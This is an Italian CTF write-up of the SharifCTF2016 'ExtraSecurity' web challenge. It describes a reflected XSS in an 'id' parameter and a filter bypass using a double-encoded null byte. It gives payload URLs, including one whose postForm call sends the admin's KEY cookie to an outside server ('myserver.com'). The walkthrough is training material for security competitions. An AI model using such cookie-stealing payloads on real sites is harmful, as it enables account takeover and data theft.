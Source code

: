 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [Web,SharifCTF2016]
author: jbz
---
```



Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

Offriva la possibilita' di firmare con la propria chiava (impostata dal server in un cookie 'KEY') o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifice.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi avrebbe filtrato le XSS.

Il primo problema consisteva nel fatto che nella propria pagina effettuare la firma, all'invio del form veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

(http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>)

Dal sorgente pagina si puo' quindi notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che e' quello che causa la reindirizzazione.

Piu' in basso si nota anche il seguente codice, che pero' non viene eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuisce subito che il campo GET 'id' puo' essere vulnerabile ad XSS ma che e' presente un filtro custom che filtra la maggior parte delle keyword o simboli: eval, alert, document, this sono solo alcuni dei filtri presenti. C'e' inoltre un limite di caratteri.

La nostra idea era quella di sfruttare la vulnerabilita' nel campo 'id', il cui contenuto viene riflesso sia nel primo script che nel secondo per rubare il cookie 'KEY' all'admin e effettuare la firma in autonomia.
Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in poForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step e' trovare un modo per rompere il primo script ma non il secondo, e questo e' possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo.

```
view-source:http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1
```
Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge prompt(c['KEY']) (equivalente di alert(c['KEY'] ma non filtrato), e crea un nuovo dict per completare la sintassi gia' esistente.

Risulta quindi
```
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```
Il che conferma la spiegazione sopra.

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola 'post', 'xml' o simili facevano scattare il filtro, mentre altri tipi di offuscamento come jsfuck risultavano in una stringa troppo lunga.
Dopo diversi tentativi, supponendo che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziamo a provare inserendo null bytes %00 altri caratteri come %0a e %0d.
Il null byte funziona ed il filtro smette di funzionare per qualsiasi carattere/strings dopo la presenza di %00. Continuando nei test noto pero' che anche Chrome ha qualche problema nel gestire la sintassi in caso di null bytes nel sorgente (al momento del writeup non riesco a riprodurre il problema..), provo quindi effettuando un double encoding, cioe' inserendo %2500 e noto che funziona lo stesso. Il payload finale quindi consiste in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
    </script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da 'garbage' in poi il codice serve solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non viene mai condirato in quanto la XSS non richiede tag HTML poiche' il payload finisce gia' all'interno di tag <script>.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.
